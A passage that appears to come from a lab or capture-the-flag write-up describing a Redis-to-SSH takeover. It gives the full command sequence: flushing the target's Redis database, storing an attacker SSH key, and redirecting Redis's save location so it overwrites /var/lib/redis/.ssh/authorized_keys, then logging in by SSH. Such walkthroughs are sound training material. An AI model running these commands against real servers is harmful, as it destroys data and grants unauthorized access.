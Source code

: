 First we need to clear the Redis memory database entirely, we can do this by using ``redis-cli -h [target ip] flushall``, agree to install redis-tools if prompted. Then we can echo our key into the Redis database, we must give a name to set the data too by doing ``cat [key file] | redis-cli -h [target IP] -x set keycrack`` with keycrack being the name we gave to the Redis database to identify the value of our SSH key. 

![img](assets/set_key.png)

From here we can use Redis and connect to the machine with ``redis-cli -h [target IP]`` and use the command ``config get dir`` to see which folder the Redis instance is running in. We can change this to the SSH key folder of the Redis user account with ``config set dir /var/lib/redis/.ssh/`` and then set our database file name using ``config set dbfilename "authorized_keys"``. 

![img](assets/redis_setkey.png)

Using the command ``save`` to save the database file will overwrite the original authorized_keys file with the data stored in the Redis database file. Since we cleared the Redis database before adding a value to ‘keycrack’, the authorized_keys file will contain only the data stored as ‘keycrack’ which is our SSH key we just generated, this means we are now authorized to connect to SSH via the Redis user. Now we can use the command ``ssh -i id_rsa redis@[target IP]`` to connect to the machine. 

![img](assets/ssh_redis.png)
